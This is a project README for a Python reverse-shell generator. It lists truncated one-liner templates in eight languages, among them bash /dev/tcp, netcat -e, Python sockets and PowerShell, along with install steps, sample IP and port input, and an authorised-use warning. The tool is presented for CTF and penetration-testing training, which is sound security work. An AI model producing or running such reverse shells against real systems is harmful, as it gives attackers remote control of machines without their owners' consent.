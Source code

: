 # 🔥 Reverse-shell-generator 
![](images/new.png)
## 🚀 Installation
<b>You can use the Reverse Shell Generator script by cloning the repository:</b>
```python
git clone https://github.com/CyberKRY/reverse-shell-generator.git
cd reverse-shell-generator
```
<b>It is recommended to run the script with Python 3 installed on your system. It is cross-platform and does not require any additional libraries.</b>

## Quick Start:
```python
python3 shellgen.py
```
## ✨ Features
<b>
  
* Supports eighth languages: Bash, Python, PHP, Perl, Netcat, Java, Xterm and Powershell

* Instant generation: Simply select a number, IP address and port to create a reverse shell that is ready to use.

* Colourful CLI interface: Stylish and easy to read thanks to the ANSI layout.

* Minimalism: Lightweight with no dependencies; runs instantly.

* Versatility: Great for CTF, penetration testing, training and automation.
</b>

## 📥 Supported Shells
| № | Language  | Command                                |
| - | ------    | -------------------------------------- |
| 1 | Bash      | `bash -i >& /dev/tcp/...`              |
| 2 | Python    | `python3 -c 'import socket,...'`       |
| 3 | PHP       | `php -r '$sock = fsockopen(...); ...'` |
| 4 | Perl      | `perl -e 'use Socket; ...'`            |
| 5 | Netcat    | `nc -e /bin/sh ...`                    |
| 6 | Java      | `Runtime.getRuntime().exec(...)`       |
| 7 | Xterm     | `xterm -display IP:PORT`               |
| 8 | Powershell| `powershell -c "$client = New-Objec...`|

## Conclusion:
```python
Enter the Reverse Shell number: 2
Enter IP address: 10.8.0.1
Enter port number: 4444
```
## ⚠️ Warning
> <b>This tool is intended solely for training purposes or legal testing. Only use it in systems where you have authorisation.</b>


<b>Thank you very much for your interest in my robot. This is one of the first scripts I have created, and I will create more and better ones in future. Thank you again.</b>
